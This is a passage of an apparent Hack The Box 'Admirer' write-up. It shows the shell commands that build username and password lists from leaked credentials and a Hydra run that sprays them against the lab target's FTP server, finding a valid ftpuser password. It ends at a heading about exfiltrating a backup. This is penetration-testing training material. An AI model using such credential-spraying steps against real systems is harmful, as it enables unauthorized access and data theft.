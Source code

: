 #### Prepare list of potential users based on discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ cat <<'EOF'> users.txt
penny
p.wise
rajesh
r.nayyar
amy
a.bialik
leonard
l.galecki
howard
h.helber
bernadette
b.rauch
waldo
w.cooper
ftpuser
admin
EOF
```

#### Prepare list of potential password based on discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ cat <<'EOF'> passwords.txt
fgJr6q#S\W:$P
%n?4Wz}R$tTF7
w0rdpr3ss01!
EOF
```

#### Spray discovered credentials over FTP server
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ hydra -I -L users.txt -P passwords.txt ftp://$TARGET 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-23 17:43:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 48 login tries (l:16/p:3), ~3 tries per task
[DATA] attacking ftp://10.129.229.101:21/
[21][ftp] host: 10.129.229.101   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
```

### Exfiltrate backup over FTP server using discovered credentials
